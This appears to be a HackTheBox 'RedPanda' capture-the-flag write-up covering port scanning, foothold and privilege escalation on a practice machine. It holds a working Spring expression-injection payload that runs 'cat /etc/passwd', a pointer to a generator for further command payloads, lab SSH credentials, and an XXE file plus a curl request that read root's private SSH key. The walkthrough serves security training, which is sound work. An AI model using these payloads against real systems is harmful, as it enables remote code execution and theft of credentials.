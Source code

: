 ```yaml
---
title: HTB | RedPanda
author: Zeropio
date: 2022-08-27
categories: [Pentesting, HackTheBox]
tags: [htb, linux, easy, machines]
permalink: /pentesting/htb/machines/redpanda
---
```


![HTB Img](/assets/img/hackthebox/card/RedPanda.png)

# Footprinting

We start with a nmap to the discover ports:

```
Nmap scan report for 10.10.11.170
Host is up (0.072s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp open  http-proxy
|_http-title: Red Panda Search | Made with Spring Boot
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 
|     Content-Type: text/html;charset=UTF-8
|     Content-Language: en-US
|     Date: Sat, 27 Aug 2022 21:13:22 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en" dir="ltr">
...

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

 If we check the webpage we will find the following page:

![Untitled](/img/hackthebox/labs/redpanda/Untitled.png)

# Foothold

We can try several payloads, until we find that  `*{7*7}` the output is `49`.  If we try the following payload:

```jsx
*{class.getResource("").getPath()}
```

We will get **Whitelabel Error Page**. Searching it, we will find that is about **Spring Boot**. The following payload, from PayloadAllTheThings will work:

```jsx
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

It will give us the `/etc/passwd`{: .filepath}. We can use [this]([https://raw.githubusercontent.com/VikasVarshney/ssti-payload/master/ssti-payload.py](https://raw.githubusercontent.com/VikasVarshney/ssti-payload/master/ssti-payload.py)) script to execute a webshell as follows to create our payloads:

```console
zero@pio$ ./ssti-payload.py

Command ==> id
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(105).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

With this we can generate our payloads to move on, start by getting our user with a `whoami` (and replacing all the `$` by `*` . 

We can search in the config file: `/opt/panda_search/src/main/java/com/panda_search/htb/panda_search/MainController.java` {: .filepath}. There we can see the escaped characters (not the `*` ) and a pair of credentials ( **woodenk**:**RedPandazRule** ), we can try ssh with them:

```console
zero@pio$ ssh woodenk@<IP>
```

# Privilege Escalation

If we run:

```console
woodenk@redpanda:~$ ps aux | grep root

root         866  0.0  0.0   2608   600 ?        Ss   16:54   0:00 /bin/sh -c sudo -u woodenk -g logs java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar
```

We can see that root user is executing something with our user. Inside the `/opt` {: .filepath} we can see some kind of scripts with the following content:

```bash
#!/bin/bash
/usr/bin/find /tmp -name "*.xml" -exec rm -rf {} \;
/usr/bin/find /var/tmp -name "*.xml" -exec rm -rf {} \;
/usr/bin/find /dev/shm -name "*.xml" -exec rm -rf {} \;
/usr/bin/find /home/woodenk -name "*.xml" -exec rm -rf {} \;
/usr/bin/find /tmp -name "*.jpg" -exec rm -rf {} \;
/usr/bin/find /var/tmp -name "*.jpg" -exec rm -rf {} \;
/usr/bin/find /dev/shm -name "*.jpg" -exec rm -rf {} \;
/usr/bin/find /home/woodenk -name "*.jpg" -exec rm -rf {} \;
```

We can see that it is deleting files with the XML version. If we go back to the webpage, we can see that in the user’s profiles we can download an XML about them.

In the previous file we can found how the XML is exported. If we check on the folder of the script we can find another file that is using the User-Agent:

```java
public class App {
    public static Map parseLog(String line) {
        String[] strings = line.split("\\|\\|");
        Map map = new HashMap<>();
        map.put("status_code", Integer.parseInt(strings[0]));
        map.put("ip", strings[1]);
        map.put("user_agent", strings[2]);
        map.put("uri", strings[3]);
```

And below the metadata of a file with a *Artist* parameter:

```java
public static String getArtist(String uri) throws IOException, JpegProcessingException
    {
        String fullpath = "/opt/panda_search/src/main/resources/static" + uri;
        File jpgFile = new File(fullpath);
        Metadata metadata = JpegMetadataReader.readMetadata(jpgFile);
        for(Directory dir : metadata.getDirectories())
        {
            for(Tag tag : dir.getTags())
            {
                if(tag.getTagName() == "Artist")
```

We could try to do a XXE and aim the metadata of this file to this malicious file. The `exiftool` could be useful to inject metadata inside an image:

```console
zero@pio$ exiftool -Artist="../../../../../../../../../home/woodenk/xxe" dog.jpeg
```

As the program add `_creds.xml` to the file name we just need to name the name before. Create the XML file (must have the same parameters as the others):

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///root/.ssh/id_rsa"> ]>
<credits>
  <author>damian</author>
  <image>
    <uri>/../../../../../../../home/woodenk/dog.jpeg</uri>
    <privesc>&xxe;</privesc>
    <views>0</views>
  </image>
  <totalviews>0</totalviews>
</credits>
```

Call the image:

```console
zero@pio$ curl http://10.10.11.170:8080 -H "User-Agent: ||/../../../../../../../home/woodenk/dog.jpeg"
```

And download the XML from the user. Check again the XXE and we should have the root RSA there.
